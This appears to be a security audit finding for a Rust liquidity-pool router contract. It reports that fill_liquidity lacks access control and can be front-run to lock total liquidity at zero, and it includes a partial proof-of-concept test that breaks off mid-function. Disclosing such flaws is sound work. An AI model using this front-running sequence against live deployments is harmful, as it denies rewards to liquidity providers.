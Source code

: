 ### Finding Description
The reward system follows a specific workflow:

`config_global_rewards` → `fill_liquidity` → `config_pool_rewards`

The `fill_liquidity` function calculates and stores the total liquidity across all pools for a token pair, which is then used to determine each pool's share of rewards.

The issue arises as there is a lack of access control, and lets attackers break the fair reward distribution based on actual liquidity ratios at the time of pool configuration.

```rust
fn fill_liquidity(e: Env, tokens: Vec<Address>) {
    // No require_auth() or admin check
    assert_tokens_sorted(&e, &tokens);
    // ...
}
```
Once called, the function sets `processed: true`, line 801, and prevents future calls via the `LiquidityAlreadyFilled` error lines 798-800. This means this is irreversible until admin reconfigures global rewards again.

### Impact Explanation
An attacker can front-run `fill_liquidity` immediately after config_global_rewards, before any meaningful liquidity is deposited. This locks in a `total_liquidity` value of zero, which leads to every pool receiving zero rewards — permanently.

This undermines the core fairness of the system:

- Users who provide real liquidity will receive no rewards.
- Admins must reconfigure global rewards to recover, which is inefficient and may not be feasible in live deployments.

This is a high economic DoS vulnerability.

### Proof of Concept
The following test can be pasted in the `liquidity_pool_router/src/test.rs` file:
```rust
#[test]
fn test_fill_liquidity_dos_attack() {
    // 1. Setup
    let setup = Setup::default();
    let e = setup.env;
    let router = setup.router;
    let admin = setup.rewards_admin;
    let reward_token = setup.reward_token;

    let attacker = Address::generate(&e);
    let honest_user = Address::generate(&e);
    let [token1, token2, _, _] = setup.tokens;
    let tokens = Vec::from_array(&e, [token1.address.clone(), token2.address.clone()]);
    e.mock_all_auths();

    // Fund reward token
    reward_token.mint(&admin, &1000_0000000);

    // 2. Admin configures global rewards FIRST 
    // (before any pools exist, or if there will be other pools with similar tokens)
    let reward_tps = 1000_0000000_u128; // High reward rate
    let rewards = Vec::from_array(&e, [(tokens.clone(), 1_0000000)]);
    router.config_global_rewards(&admin, &reward_tps, &e.ledger().timestamp().saturating_add(86400), &rewards);

    // 3. ATTACK: Attacker immediately calls fill_liquidity before any meaningful pools exist
    // This locks in ZERO total liquidity for reward calculations
    router.fill_liquidity(&tokens);
```